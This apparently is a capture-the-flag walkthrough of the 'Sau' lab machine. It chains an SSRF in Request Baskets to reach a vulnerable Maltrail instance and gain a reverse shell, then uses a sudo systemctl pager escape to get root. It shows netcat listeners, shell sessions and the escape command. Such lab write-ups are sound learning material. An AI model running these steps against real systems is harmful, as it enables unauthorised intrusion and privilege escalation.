



# Sau

<figure><figcaption></figcaption></figure>

\`Sau\` is an Easy Difficulty Linux machine that features a \`Request Baskets\` instance that is vulnerable to Server-Side Request Forgery (SSRF) via \`\[CVE-2023-27163]\(https://nvd.nist.gov/vuln/detail/CVE-2023-27163)\`. Leveraging the vulnerability we are to gain access to a \`Maltrail\` instance that is vulnerable to Unauthenticated OS Command Injection, which allows us to gain a reverse shell on the machine as \`puma\`. A \`sudo\` misconfiguration is then exploited to gain a \`root\` shell.


lets start with nmap  :&#x20;

```
nmap -A 10.10.11.224
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-25 21:04 +03
Nmap scan report for 10.10.11.224
Host is up (0.17s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
80/tcp    filtered http
55555/tcp open     unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Tue, 25 Jun 2024 18:05:45 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Tue, 25 Jun 2024 18:05:14 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Tue, 25 Jun 2024 18:05:15 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port55555-TCP:V=7.94SVN%I=7%D=6/25%Time=667B06DA%P=x86_64-pc-linux-gnu%
SF:r(GetRequest,A2,"HTTP/1\.0\x20302\x20Found\r\nContent-Type:\x20text/htm
SF:l;\x20charset=utf-8\r\nLocation:\x20/web\r\nDate:\x20Tue,\x2025\x20Jun\
SF:x202024\x2018:05:14\x20GMT\r\nContent-Length:\x2027\r\n\r\n<a\x20href=\
SF:"/web\">Found</a>\.\n\n")%r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x2
SF:0Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection
SF::\x20close\r\n\r\n400\x20Bad\x20Request")%r(HTTPOptions,60,"HTTP/1\.0\x
SF:20200\x20OK\r\nAllow:\x20GET,\x20OPTIONS\r\nDate:\x20Tue,\x2025\x20Jun\
SF:x202024\x2018:05:15\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequ
SF:est,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/pla
SF:in;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Reque
SF:st")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20
SF:text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\
SF:x20Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n
SF:Content-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r
SF:\n\r\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTTP/1\.1\x204
SF:00\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r
SF:\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLSSessionReq,6
SF:7,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x
SF:20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%
SF:r(Kerberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x
SF:20Request")%r(FourOhFourRequest,EA,"HTTP/1\.0\x20400\x20Bad\x20Request\
SF:r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nX-Content-Type-Opti
SF:ons:\x20nosniff\r\nDate:\x20Tue,\x2025\x20Jun\x202024\x2018:05:45\x20GM
SF:T\r\nContent-Length:\x2075\r\n\r\ninvalid\x20basket\x20name;\x20the\x20
SF:name\x20does\x20not\x20match\x20pattern:\x20\^\[\\w\\d\\-_\\\.\]{1,250}
SF:\$\n")%r(LPDString,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Ty
SF:pe:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\
SF:x20Bad\x20Request")%r(LDAPSearchReq,67,"HTTP/1\.1\x20400\x20Bad\x20Requ
SF:est\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20
SF:close\r\n\r\n400\x20Bad\x20Request");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 118.32 seconds
```

so ports are open are 22,80,55555

if 80 filtered lets begin with 55555 page because has 200 ok response

<figure><figcaption></figcaption></figure>

lets create a basket

<figure><figcaption></figcaption></figure>

now it will appear like this with token: lBhANDWeEBEUE-UcF7erL6QYkcuzvr1ga0ZMrytVZi0a

<figure><figcaption></figcaption></figure>

here is the page after creation

<figure><figcaption></figcaption></figure>

lets add by this in menu bar click it

to add forward url

<figure><figcaption></figcaption></figure>

apply by this command

```
curl http://10.10.11.224:55555/8fn2c0t
```

```
┌─[✗]─[cybersoldier@parrot]─[~]
└──╼ $sudo nc -lvnp 80
listening on [any] 80 ...
connect to [10.10.16.9] from (UNKNOWN) [10.10.11.224] 36886
GET / HTTP/1.1
Host: 10.10.16.9:80
User-Agent: curl/8.8.0
Accept: */*
X-Do-Not-Forward: 1
Accept-Encoding: gzip
```

if we try the 80 filtered port we can notice its SSRF vulnerability

<figure><figcaption></figcaption></figure>

if we refresh the page&#x20;

<figure><figcaption></figcaption></figure>

we can notice **Maltrail (v0.53)**

lets now discover exploit or CVE for it

I found



exploit



after reading the exploit in github url and make it reverse shell

```
┌─[cybersoldier@parrot]─[~]
└──╼ $nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.9] from (UNKNOWN) [10.10.11.224] 59224
$ ls
ls
CHANGELOG     core    maltrail-sensor.service  plugins		 thirdparty
CITATION.cff  docker  maltrail-server.service  requirements.txt  trails
LICENSE       h       maltrail.conf	       sensor.py
README.md     html    misc		       server.py
$ id
id
uid=1001(puma) gid=1001(puma) groups=1001(puma)
```

reading user.txt flag

```
$ pwd
pwd
/opt/maltrail
$ cd ..
cd ..
$ ls
ls
maltrail
$ cd ..
cd ..
$ ls
ls
bin   data  etc   lib	 lib64	 lost+found  mnt  proc	run   srv  tmp	vagrant
boot  dev   home  lib32  libx32  media	     opt  root	sbin  sys  usr	var
$ cd home
cd home
$ ls
ls
puma
$ cd puma
cd puma
$ ls
ls
user.txt
$ cat user.txt
cat user.txt
b512bbf2ecc3887************
```

if we try sudo -l we found this

```
$ sudo -l
sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
$ 
```

this if you would like to read about vulnerability



if hit ENTER then type !/bin/bash

we got the root

```
$ sudo /usr/bin/systemctl status trail.service
sudo /usr/bin/systemctl status trail.service
WARNING: terminal is not fully functional
-  (press RETURN)!/bin/bash
!//bbiinn//bbaasshh!/bin/bash
root@sau:/home/puma# 
```

then read root.txt flag

```
root@sau:/home/puma# cat /root/root.txt
cat /root/root.txt
f4d51f7a498c4b9c1**************
root@sau:/home/puma#
```
